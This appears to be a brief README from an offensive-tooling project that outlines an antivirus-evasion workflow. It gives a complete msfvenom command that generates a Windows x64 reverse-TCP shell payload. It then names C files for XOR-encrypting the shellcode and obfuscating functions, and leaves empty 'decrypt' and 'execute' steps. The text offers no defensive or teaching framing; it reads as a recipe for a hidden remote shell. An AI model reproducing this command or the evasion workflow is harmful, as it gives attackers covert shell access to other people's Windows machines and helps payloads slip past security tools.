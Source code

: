### Generate msfvenome shellcode ###
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=443 -f raw -o code.bin

### encrypt shellcode ###
using xor-env-test.c to encrypt msfvenome generate file

### for function obuscation ###
use xorTest.c

### decrypt shellcode ###
### execute ###
